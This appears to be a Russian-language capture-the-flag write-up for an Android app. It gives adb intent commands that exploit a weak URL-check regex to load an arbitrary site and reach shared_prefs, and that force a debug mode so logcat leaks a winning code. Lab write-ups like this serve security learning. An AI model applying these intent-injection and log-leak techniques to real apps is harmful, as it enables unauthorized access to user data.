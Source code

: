 # casino


## Wiki 
В коде уязвимая регулярка которая просто проверяет на наличие в строке https://en.wikipedia.org
![image](https://github.com/ambushidozho/casino/assets/102957421/b3aad247-f8bb-4bc5-ab12-5da175033760)
Следовательно 
adb shell am start -n ru.vk.nsa/ru.vk.nsa.Wiki --es url https://vk.com?test='https://en.wikipedia.org'
с помощью такого интента мы можем поместить ссылку на любой сайт злоумышленника а также получить доступ к папке shared_pref

## Casino
В коде мы видим mode разработки, меняем его на debug, вводим буквенный код, при ошибке читаем логи, видим верный код, вводим, победа
```sh
adb shell am start -n ru.vk.nsa/ru.vk.nsa.Casino --es mode debug
```
```sh
adb logcat | grep 'expected:'
```
![tg_image_1376263483](https://github.com/ambushidozho/casino/assets/102957421/c6d9b76d-d747-44cc-a235-e2c7e0c20708)

![image](https://github.com/ambushidozho/casino/assets/102957421/ce553dcb-8f44-4274-8ea1-34d8599ae25f)

Вводим код, побеждаем
![image](https://github.com/ambushidozho/casino/assets/102957421/834aefdd-81b2-4dac-a8e6-140f0c8a9600)

